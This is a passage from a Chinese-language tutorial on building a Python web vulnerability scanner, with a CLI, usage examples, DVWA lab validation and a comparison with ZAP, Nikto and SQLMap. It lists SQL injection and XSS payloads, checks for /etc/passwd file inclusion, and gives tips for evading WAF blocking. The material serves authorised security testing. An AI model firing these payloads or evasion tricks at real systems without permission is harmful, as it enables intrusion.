        self.start_time = time.time()
        
        logger = logging.getLogger(__name__)
        
        logger.info("=" * 60)
        logger.info("Web漏洞扫描器 v1.0")
        logger.info(f"目标: {self.config.target_url}")
        logger.info(f"时间: {datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
        logger.info("=" * 60)
        
        # === 阶段1：爬取 ===
        logger.info("\n[阶段 1/4] 爬取目标网站...")
        crawl_start = time.time()
        urls, forms, params = self.crawler.crawl()
        crawl_time = time.time() - crawl_start
        logger.info(f"  爬取完成: {len(urls)} URLs, {len(forms)} 表单 ({crawl_time:.1f}s)")
        
        # === 阶段2：检测URL漏洞 ===
        logger.info(f"\n[阶段 2/4] 检测URL漏洞...")
        detect_start = time.time()
        
        for i, url in enumerate(urls, 1):
            if i % 50 == 0:
                logger.info(f"  进度: {i}/{len(urls)} URLs")
            
            url_params = params.get(url, [])
            # 如果没有从爬虫获取到参数信息，尝试解析URL
            if not url_params:
                from urllib.parse import parse_qs, urlparse
                url_params = list(parse_qs(urlparse(url).query).keys())
            
            vulns = self.detector.detect_url(url, url_params)
            if vulns:
                self.results.extend(vulns)
        
        detect_time = time.time() - detect_start
        logger.info(f"  URL检测完成: 发现 {sum(1 for v in self.results)} 个疑似漏洞 ({detect_time:.1f}s)")
        
        # === 阶段3：检测表单漏洞 ===
        logger.info(f"\n[阶段 3/4] 检测表单漏洞...")
        form_start = time.time()
        
        for i, form in enumerate(forms, 1):
            if i % 20 == 0:
                logger.info(f"  进度: {i}/{len(forms)} 表单")
            
            vulns = self.detector.detect_form(form)
            if vulns:
                self.results.extend(vulns)
        
        form_time = time.time() - form_start
        logger.info(f"  表单检测完成 ({form_time:.1f}s)")
        
        # === 阶段4：去重和报告 ===
        logger.info(f"\n[阶段 4/4] 生成报告...")
        
        # 去重
        self.results = self.deduplicator.deduplicate(self.results)
        logger.info(f"  去重后: {len(self.results)} 个唯一漏洞")
        
        # 生成报告
        self.reporter._target_url = self.config.target_url
        self.reporter.generate(self.results, self.config.output_file)
        
        # 扫描总结
        total_time = time.time() - self.start_time
        logger.info("\n" + "=" * 60)
        logger.info("扫描完成!")
        logger.info(f"  耗时: {total_time:.1f}s")
        logger.info(f"  漏洞: {len(self.results)} 个")
        logger.info(f"  高危: {sum(1 for v in self.results if v['risk'] == 'High')}")
        logger.info(f"  中危: {sum(1 for v in self.results if v['risk'] == 'Medium')}")
        logger.info(f"  低危: {sum(1 for v in self.results if v['risk'] == 'Low')}")
        logger.info(f"  报告: {self.config.output_file}")
        logger.info("=" * 60)
        
        return self.results


def main():
    """命令行入口"""
    parser = argparse.ArgumentParser(
        description='Web漏洞扫描器 - 专业的自动化Web安全检测工具',
        epilog='法律声明: 仅限授权目标使用。未经授权的扫描属于违法行为。',
    )
    
    # 目标参数
    parser.add_argument('-u', '--url', required=True, help='目标URL')
    parser.add_argument('-o', '--output', default='report.html', help='报告输出文件 (默认: report.html)')
    
    # 爬虫参数
    parser.add_argument('--depth', type=int, default=3, help='最大爬取深度 (默认: 3)')
    parser.add_argument('--threads', type=int, default=10, help='并发线程数 (默认: 10)')
    parser.add_argument('--max-urls', type=int, default=500, help='最大URL数 (默认: 500)')
    
    # 检测参数
    parser.add_argument('--no-sqli', action='store_true', help='禁用SQL注入检测')
    parser.add_argument('--no-xss', action='store_true', help='禁用XSS检测')
    parser.add_argument('--no-lfi', action='store_true', help='禁用文件包含检测')
    parser.add_argument('--no-ssrf', action='store_true', help='禁用SSRF检测')
    parser.add_argument('--no-headers', action='store_true', help='禁用HTTP头检测')
    
    # 速率控制
    parser.add_argument('--rps', type=float, default=10.0, help='每秒最大请求数 (默认: 10)')
    
    # 认证
    parser.add_argument('--auth-cookie', help='认证Cookie (格式: name1=val1;name2=val2)')
    
    # 代理
    parser.add_argument('--proxy', help='代理地址 (如: http://127.0.0.1:8080)')
    
    # 其他
    parser.add_argument('--config', help='JSON配置文件路径')
    parser.add_argument('-v', '--verbose', action='store_true', help='详细输出')
    parser.add_argument('--verify-ssl', action='store_true', help='验证SSL证书 (默认: 不验证)')
    
    args = parser.parse_args()
    
    # 构建配置
    if args.config:
        config = ScannerConfig.from_file(args.config)
    else:
        config = ScannerConfig(
            target_url=args.url,
            output_file=args.output,
            crawl_depth=args.depth,
            max_threads=args.threads,
            max_urls=args.max_urls,
            requests_per_second=args.rps,
            verify_ssl=args.verify_ssl,
            auth_type='cookie' if args.auth_cookie else None,
            auth_cookie=args.auth_cookie,
            proxy=args.proxy,
            detect_sqli=not args.no_sqli,
            detect_xss=not args.no_xss,
            detect_lfi=not args.no_lfi,
            detect_ssrf=not args.no_ssrf,
            detect_headers=not args.no_headers,
        )
    
    # 设置日志
    setup_logging(args.verbose)
    
    # 显示法律声明
    logger = logging.getLogger(__name__)
    logger.warning("⚠️  法律声明: 本工具仅限在获得明确授权的目标上使用")
    logger.warning("   未经授权的扫描属于违法行为，可能面临法律追诉")
    logger.warning("   按 Ctrl+C 取消扫描\n")
    
    # 执行扫描
    scanner = WebScanner(config)
    results = scanner.run()
    
    # 退出码：有高危漏洞返回1，便于CI/CD集成
    if any(v['risk'] == 'High' for v in results):
        sys.exit(1)
    sys.exit(0)


if __name__ == '__main__':
    main()
```

## Payload文件示例

### SQL注入Payload

```text
# payloads/sqli_error.txt
'
''
"
1' OR '1'='1
1" OR "1"="1
1' OR 1=1--
1' OR 1=1#
1' OR 1=1/*
') OR ('1'='1
1' OR 'a'='a
1' AND 'a'='b
admin'--
1' UNION SELECT NULL--
1' UNION SELECT NULL,NULL--
1' UNION SELECT NULL,NULL,NULL--
1; SELECT 1--
1' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION()))--
1' AND UPDATEXML(1,CONCAT(0x7e,VERSION()),1)--
```

```text
# payloads/sqli_time.txt
1' AND SLEEP(5)--
1' AND SLEEP(3)#
1'; WAITFOR DELAY '0:0:5'--
1' AND (SELECT SLEEP(5) FROM DUAL WHERE 1=1)--
1' AND BENCHMARK(10000000,SHA1('test'))--
1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT VERSION(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a--
```

```text
# payloads/sqli_boolean.txt
1 AND 1=1
1 AND 1=2
1 AND 'a'='a
1 AND 'a'='b
1' AND '1'='1
1' AND '1'='2
1 AND ASCII(SUBSTRING((SELECT DATABASE()),1,1))>64
1 AND ASCII(SUBSTRING((SELECT DATABASE()),1,1))>128
```

### XSS Payload

```text
# payloads/xss_reflected.txt
<script>alert('{{MARKER}}')</script>

<svg onload=alert('{{MARKER}}')>
<body onload=alert('{{MARKER}}')>
<iframe src="javascript:alert('{{MARKER}}')">
<div onmouseover=alert('{{MARKER}}')>hover</div>
<input onfocus=alert('{{MARKER}}') autofocus>
<details open ontoggle=alert('{{MARKER}}')>
" onmouseover="alert('{{MARKER}}')"
' onmouseover='alert('{{MARKER}}')' 
"><script>alert('{{MARKER}}')</script>
<svg/onload=alert('{{MARKER}}')>
<a href="javascript:alert('{{MARKER}}')">click</a>
javascript:alert('{{MARKER}}')
<marquee onstart=alert('{{MARKER}}')>
<video src=x onerror=alert('{{MARKER}}')>
```

## 使用示例

### 基础扫描

```bash
# 安装依赖
pip install requests beautifulsoup4 jinja2

# 扫描目标（输出HTML报告）
python scanner.py -u http://dvwa.local -o report.html

# 扫描并输出JSON格式（便于自动化处理）
python scanner.py -u http://dvwa.local -o report.json
```

### 高级用法

```bash
# 带认证的扫描
python scanner.py -u https://app.example.com \
    --auth-cookie "session_id=abc123def456;token=xyz789" \
    -o authenticated_report.html

# 调整扫描强度
python scanner.py -u http://target.com \
    --depth 5 \
    --threads 20 \
    --max-urls 1000 \
    --rps 20

# 通过代理扫描（配合Burp Suite查看请求）
python scanner.py -u http://target.com \
    --proxy http://127.0.0.1:8080 \
    -v

# 只检测SQL注入和XSS
python scanner.py -u http://target.com \
    --no-lfi --no-ssrf --no-headers \
    -o sqli_xss_only.html

# 使用配置文件
python scanner.py --config my_scan.json
```

### 配置文件示例

```json
{
    "target_url": "https://app.example.com",
    "output_file": "report.sarif",
    "output_format": "sarif",
    "crawl_depth": 4,
    "max_urls": 1000,
    "max_threads": 15,
    "requests_per_second": 15.0,
    "auth_type": "cookie",
    "auth_cookie": "session=abc123;csrf=xyz789",
    "proxy": "http://127.0.0.1:8080",
    "detect_sqli": true,
    "detect_xss": true,
    "detect_lfi": true,
    "detect_ssrf": true,
    "detect_cmdi": true,
    "detect_redirect": true,
    "detect_headers": true,
    "excluded_urls": ["/logout", "/api/health"],
    "custom_headers": {
        "X-Custom-Header": "value"
    }
}
```

## 测试验证：使用DVWA靶场

自研扫描器必须经过已知漏洞靶场验证，才能确认检测逻辑的准确性。以下使用DVWA（Damn Vulnerable Web Application）进行验证：

### 搭建测试环境

```bash
# 启动DVWA
docker run -d --name dvwa -p 8080:80 vulnerables/web-dvwa

# 等待服务启动后，先用浏览器登录一次（设置安全级别为Low）
# 默认凭据: admin / password
```

### 验证扫描结果

```bash
# 执行扫描
python scanner.py -u http://localhost:8080 \
    --auth-cookie "PHPSESSID=<your_session_id>; security=low" \
    --depth 2 \
    -o dvwa_report.html \
    -v

# 期望发现的漏洞类型：
# 1. SQL Injection - DVWA的SQL Injection页面存在经典注入
# 2. Reflected XSS - DVWA的Reflected XSS页面存在反射型XSS
# 3. File Inclusion - DVWA的File Inclusion页面存在LFI
# 4. Missing Security Headers - 缺少CSP、X-Frame-Options等
# 5. Insecure Cookies - 缺少Secure、HttpOnly标志
```

### 验证清单

| 测试项 | 预期结果 | 通过标准 |
|--------|----------|----------|
| SQL注入检测 | 至少发现3个注入点 | 精确参数名和payload |
| XSS检测 | 至少发现2个反射点 | payload完整反射 |
| LFI检测 | 至少发现1个文件包含 | 检测到/etc/passwd内容 |
| HTTP头检测 | 缺失多个安全头 | 与手动检查一致 |
| 误报率 | 误报数量 < 正确发现数量的10% | 逐一人工验证 |
| 漏报率 | 不超过已知漏洞的30% | 对照DVWA漏洞清单 |
| 报告格式 | HTML/JSON可正常打开 | 无渲染错误 |

## 常见问题与排错

### WAF拦截

**现象**：大量请求返回403或自定义拦截页面

**解决方案**：
1. 降低请求速率：`--rps 2`
2. 使用代理轮换
3. 添加随机延迟（在RateLimiter中引入jitter）
4. 使用更隐蔽的payload（避免明显的关键字如`SELECT`、`UNION`）

### 超时过多

**现象**：大量 "Connection timeout" 错误

**解决方案**：
1. 检查网络连通性：`curl -v http://target.com`
2. 增加超时时间：在配置中设置 `timeout=30`
3. 减少并发线程：`--threads 5`
4. 检查代理配置是否正确

### 误报过多

**现象**：报告中大量非真实漏洞

**解决方案**：
1. 增加基准对比（正常请求 vs 注入请求的差异判断）
2. 排除页面固有的错误信息（如自定义错误页面）
3. 对时间盲注增加多次采样（当前实现已包含3次基准测量）
4. 在去重引擎中添加更严格的相似度阈值

### 漏报过多

**现象**：靶场中明确存在的漏洞未被发现

**解决方案**：
1. 检查爬虫是否覆盖了所有目标URL（增加 `--depth`）
2. 确认认证Cookie有效（检查是否能访问登录后的页面）
3. 补充payload文件（当前实现已覆盖主流payload，但可能遗漏特定框架的payload）
4. 对于存储型漏洞（存储型XSS），当前实现仅覆盖反射型——这是已知限制

## 与现有工具对比

| 特性 | 本扫描器 | OWASP ZAP | Nikto | SQLMap |
|------|----------|-----------|-------|--------|
| 定位 | 轻量可编程 | 全功能安全平台 | Web服务器扫描 | SQL注入专项 |
| 语言 | Python | Java | Perl/C | Python |
| 爬虫 | ✅ BFS多线程 | ✅ 深度爬虫 | ❌ 无 | ✅ 部分 |
| SQL注入 | ✅ 四种模式 | ✅ | ❌ | ✅ 极深 |
| XSS | ✅ | ✅ | ❌ | ❌ |
| SSRF | ✅ | ✅ | ❌ | ❌ |
| LFI | ✅ | ✅ | ✅ | ❌ |
| 自定义规则 | ✅ 完全可编程 | ✅ 通过插件 | ❌ | ✅ 通过tamper |
| 报告格式 | ✅ 4种 | ✅ | ✅ | ✅ |
| CI/CD集成 | ✅ 退出码 | ✅ | ⚠️ 有限 | ✅ |
| 学习曲线 | 低 | 中 | 低 | 中 |
| 扩展性 | ✅ 插件式架构 | ✅ 丰富生态 | ❌ | ✅ tamper脚本 |

**本扫描器的核心优势**：
1. **轻量化**：无重量级依赖，可在任何Python环境快速部署
2. **完全可编程**：每个检测器是独立的Python类，修改和扩展零门槛
3. **CI/CD友好**：退出码语义清晰（0=无高危，1=有高危）
4. **报告标准化**：支持SARIF格式，可直接集成到GitHub Code Scanning
5. **教学价值**：代码结构清晰，每个模块的设计原理和实现细节都有详细注释

## 进阶扩展方向

### 1. 基于Nuclei模板的检测引擎

将检测规则模板化（YAML格式），实现"不改代码只改配置"的漏洞检测：

```yaml
# templates/sqli-error.yaml
id: sqli-error-mysql
info:
  name: MySQL Error-based SQL Injection
  severity: high
  tags: sqli, mysql

requests:
  - method: GET
    path:
      - "{{BaseURL}}/?id=1'"
    matchers:
      - type: word
        words:
          - "you have an error in your sql syntax"
          - "warning: mysql"
        condition: or
```

### 2. 异步扫描引擎

用 `asyncio` + `aiohttp` 替换同步请求，大幅提升扫描速度：

```python
import asyncio
import aiohttp

async def async_detect_url(detector, url, params, session, config):
    """异步版本的URL检测"""
    # 在IO密集型场景下，异步版本可提升3-5倍吞吐量
    ...
```

### 3. 分布式扫描

通过Redis/RabbitMQ实现任务分发，将爬取、检测、报告分离为独立服务，支持横向扩展。

### 4. 智能Payload生成

基于目标响应特征，动态调整payload策略（如检测到目标使用WAF时自动切换绕过payload）。

## 本节要点回顾

| 要点 | 说明 |
|------|------|
| 架构设计 | 五大模块（爬虫、检测、报告、认证、速率控制）各司其职 |
| 爬虫策略 | BFS + 多线程，提取链接、表单、JavaScript URL、参数 |
| SQL注入检测 | 四种模式：错误型、布尔盲注、时间盲注、UNION注入 |
| XSS检测 | Payload反射验证 + 上下文识别（HTML/属性/JS） |
| LFI检测 | 文件内容特征匹配（/etc/passwd、win.ini等） |
| SSRF检测 | 参数名语义分析 + 内部服务响应特征检测 |
| HTTP头检测 | 被动检测7个安全头 + Cookie安全属性 |
| 速率控制 | 令牌桶算法，防止目标过载和WAF封禁 |
| 去重引擎 | 四层过滤策略，精确键 + 风险等级优先 |
| 报告生成 | 四种格式（HTML/JSON/SARIF/Markdown），SARIF可集成CI/CD |
| 测试验证 | DVWA靶场验证，对照清单确认准确率 |
| 进阶方向 | 模板化引擎、异步扫描、分布式架构、智能Payload |
